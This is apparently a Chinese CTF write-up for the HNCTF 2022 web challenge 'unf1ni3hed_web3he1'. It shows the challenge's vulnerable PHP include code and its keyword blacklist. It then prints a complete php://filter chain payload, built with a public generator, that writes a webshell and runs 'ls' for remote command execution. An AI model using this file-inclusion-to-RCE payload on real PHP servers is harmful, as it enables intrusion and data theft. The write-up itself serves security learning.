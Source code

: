 ```yaml
---
title: '[HNCTF 2022 WEEK4]unf1ni3hed_web3he1'
date: 2024-07-30 22:03:35
tags: 文件包含
categories: 刷题笔记
---
```


### [HNCTF 2022 WEEK4]unf1ni3hed_web3he1

我们打开页面，提示传个cmd，我们传了后，就会跳转到“你被骗了”视频

![image-20240730220448957](https://insey.oss-cn-shenzhen.aliyuncs.com/kin/202407302204252.png)

我们进行抓包，果然，再抓包里发现真正的文件

![image-20240730220530573](https://insey.oss-cn-shenzhen.aliyuncs.com/kin/202407302205627.png)

我们访问看看

![image-20240730220948153](https://insey.oss-cn-shenzhen.aliyuncs.com/kin/202407302209221.png)

根据提示，我们访问t00llll.php，成功进入下一个页面

```
<?php
error_reporting(0);

if (!isset($_GET['include_'])) {
    echo "使用工具的时候,要轻一点哦~";
    show_source(__FILE__);
}else{
    $include_ = $_GET['include_'];
}
if (preg_match('/sess|tmp/i', $include_)) {
    die("可恶涅,同样的方法怎么可能骗到本小姐两次!");
}else if (preg_match('/sess|tmp|index|\~|\@|flag|g|\%|\^|\&|data|log/i', $include_)) {
    die("呜呜呜,不可以包含这些奇奇怪怪的东西欸!!");
}
else @include($include_);

?>
```

### 非预期解

我们使用php filter chain链

https://github.com/synacktiv/php_filter_chain_generator

我们构造filter链

```
python php_filter_chain_generator.py --chain "<?=`$_GET[0]`;;?>"
```

我们先查看目录

```
php://filter/convert.iconv.UTF8.CSISO2022KR|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.JS.UNICODE|convert.iconv.L4.UCS2|convert.iconv.UCS-4LE.OSF05010001|convert.iconv.IBM912.UTF-16LE|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.851.UTF-16|convert.iconv.L1.T.618BIT|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.IBM869.UTF16|convert.iconv.L3.CSISO90|convert.iconv.R9.ISO6937|convert.iconv.OSF00010100.UHC|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.851.UTF-16|convert.iconv.L1.T.618BIT|convert.iconv.ISO-IR-103.850|convert.iconv.PT154.UCS4|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.IBM869.UTF16|convert.iconv.L3.CSISO90|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.INIS.UTF16|convert.iconv.CSIBM1133.IBM943|convert.iconv.IBM932.SHIFT_JISX0213|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.CP367.UTF-16|convert.iconv.CSIBM901.SHIFT_JISX0213|convert.iconv.UHC.CP1361|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.UTF8.UTF16LE|convert.iconv.UTF8.CSISO2022KR|convert.iconv.UCS2.UTF8|convert.iconv.ISO-IR-111.UJIS|convert.iconv.852.UCS2|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.UTF8.UTF16LE|convert.iconv.UTF8.CSISO2022KR|convert.iconv.UTF16.EUCTW|convert.iconv.CP1256.UCS2|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.865.UTF16|convert.iconv.CP901.ISO6937|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.SE2.UTF-16|convert.iconv.CSIBM1161.IBM-932|convert.iconv.MS932.MS936|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.INIS.UTF16|convert.iconv.CSIBM1133.IBM943|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.ISO-2022-KR.UTF16|convert.iconv.ISO-IR-139.UTF-16|convert.iconv.ISO-IR-157.ISO-IR-156|convert.iconv.WINDOWS-1258.ISO_6937|convert.iconv.KOI8-T.ISO-2022-JP-3|convert.iconv.CP874.ISO2022KR|convert.iconv.CSUNICODE.UTF-8|convert.iconv.OSF00010004.UTF32BE|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.UTF8.UTF16LE|convert.iconv.UTF8.CSISO2022KR|convert.iconv.UCS2.UTF8|convert.iconv.8859_3.UCS2|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.PT.UTF32|convert.iconv.KOI8-U.IBM-932|convert.iconv.SJIS.EUCJP-WIN|convert.iconv.L10.UCS4|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.CP367.UTF-16|convert.iconv.CSIBM901.SHIFT_JISX0213|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.PT.UTF32|convert.iconv.KOI8-U.IBM-932|convert.iconv.SJIS.EUCJP-WIN|convert.iconv.L10.UCS4|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.UTF8.CSISO2022KR|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.CP367.UTF-16|convert.iconv.CSIBM901.SHIFT_JISX0213|convert.iconv.UHC.CP1361|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.CSIBM1161.UNICODE|convert.iconv.ISO-IR-156.JOHAB|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.ISO2022KR.UTF16|convert.iconv.L6.UCS2|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.INIS.UTF16|convert.iconv.CSIBM1133.IBM943|convert.iconv.IBM932.SHIFT_JISX0213|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.UTF8.CSISO2022KR|convert.iconv.ISO2022KR.UTF16|convert.iconv.UCS-2LE.UCS-2BE|convert.iconv.TCVN.UCS2|convert.iconv.857.SHIFTJISX0213|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.base64-decode/resource=php://temp&0=ls ../../../
```

发现一个secret文件夹

![image-20240730222810183](https://insey.oss-cn-shenzhen.aliyuncs.com/kin/202407302228264.png)

我们访问这个文件夹，发现flag

![image-20240730222838853](https://insey.oss-cn-shenzhen.aliyuncs.com/kin/202407302228900.png)

访问flag

![image-20240730222902912](https://insey.oss-cn-shenzhen.aliyuncs.com/kin/202407302229120.png)
